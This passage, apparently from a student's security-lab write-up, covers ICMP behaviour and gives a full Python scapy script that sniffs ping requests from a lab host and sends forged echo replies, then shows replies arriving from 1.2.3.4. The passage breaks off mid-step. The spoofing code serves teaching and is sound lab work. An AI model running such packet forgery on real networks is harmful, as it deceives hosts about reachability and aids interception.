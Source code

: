     - for `10.9.0.99`, there is no routing for this IP address in the routing table, hence we get Destination Host Unreachable
    - for `8.8.8.8`, there is a valid route to this IP address in the routing table, hence we get a reply from the host as it is a valid IP address on the Internet

3. we craft a python code that sniffs the ICMP packets and swaps their source and destination IP addresses, then spoofs a reply to the source.
    - `sniffNspoof.py` code:
        - ```python
            #!/usr/bin/python3
            from scapy.all import *

            interface_id = 'br-82f1d76314d9'


            def sniffNspoof_pkt(pkt):
                if ICMP in pkt and pkt[ICMP].type == 8:
                    print('==========================')
                    print('Original Packet: ')
                    print(f'Source IP Address: {pkt[IP].src}')
                    print(f'Destination IP Address: {pkt[IP].dst}')

                    spoof_src = pkt[IP].dst
                    spoof_dst = pkt[IP].src
                    spoof_ihl = pkt[IP].ihl

                    spoof_ip = IP(src=spoof_src,dst=spoof_dst,ihl=spoof_ihl,ttl=30)

                    spoof_icmp_id = pkt[ICMP].id
                    spoof_seq = pkt[ICMP].seq

                    spoof_icmp = ICMP(id = spoof_icmp_id, seq = spoof_seq, type =0)

                    data = pkt[Raw].load

                    spoof_pkt = spoof_ip/spoof_icmp/data

                    print('=========================')
                    print('Spoofed Packet:')
                    print(f'Source IP Address: {spoof_pkt[IP].src}')
                    print(f'Destination IP Address: {spoof_pkt[IP].dst}')

                    send(spoof_pkt,verbose =0)

            pkt = sniff(iface = interface_id, filter = 'icmp and src host 10.9.0.6', prn=sniffNspoof_pkt)
            ```
4. when we ping `1.2.3.4`
    - we see this result:
        - ![task1_4_ping_1_2_3_4](images/task1_4_ping_1_2_3_4.png)
    - compared to the original ping result, we now receive a reply from `1.2.3.4`
    - this is because our sniffing and spoofing code has successfully intercepted the ICMP echo request and sent a spoofed echo reply back to the original sender.
5. when we ping `10.9.0.99`
    - we see this result (or the lack of it):